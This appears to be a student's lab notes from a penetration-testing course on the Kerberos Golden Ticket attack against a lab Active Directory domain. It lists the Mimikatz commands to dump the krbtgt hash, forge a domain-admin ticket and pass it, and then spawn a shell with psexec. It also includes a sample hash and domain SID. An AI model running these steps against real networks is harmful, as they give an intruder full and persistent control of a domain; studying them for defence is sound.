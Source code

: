 # What is Golden Ticket?
---
- When ==we compromise the **`krbtgt` account**, ==we own the domain.
	- `krbtgt account`: Kerberos Ticket Granting Account
- We can request access to any resource or system or domain.
- **==Golden tickets == complete access to every resource on domain.==**
- **Persistent Access**

# Golden Ticket Attack
---
- We need the `krbtgt account` hash:
- `krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9868111c87647a39a92e31315c0c23c7:::`
- We need `Mimikatz`:
	- `mimikatz.exe`
	- `privilege::debug`
	- `lsadump::lsa /inject /name:krbtgt`
- Copy the following:
	- SID of the Domain : `S-1-5-21-76944399-951576941-787082915`
		- Get SID using: `whoami /all`(everything except last -/d{3} which refers to user)
		- ![[Pasted image 20250330155051.png]]
	- NTLM hash of `krbtgt` account:
		- ![[Pasted image 20250330155128.png]]
	- `kerberos::golden /User:fakeuser123 /domain:MARVEL.local /sid:<copied_sid_of_domain> /krbtgt:<copied_krbtgt_hash> /id:500 /ptt`
		- `id`: Your `rid` (Admin account)
		- `ptt`: Pass the ticket to current session (launch cmd prompt)
	- ![[Pasted image 20250330155358.png]]
	- `misc::cmd`
		- Got the shell:
			- ![[Pasted image 20250330155430.png]]
			- `psexec.exe \\THEPUNISHER cmd.exe` => Spawn a shell
				- ![[Pasted image 20250330155711.png]]
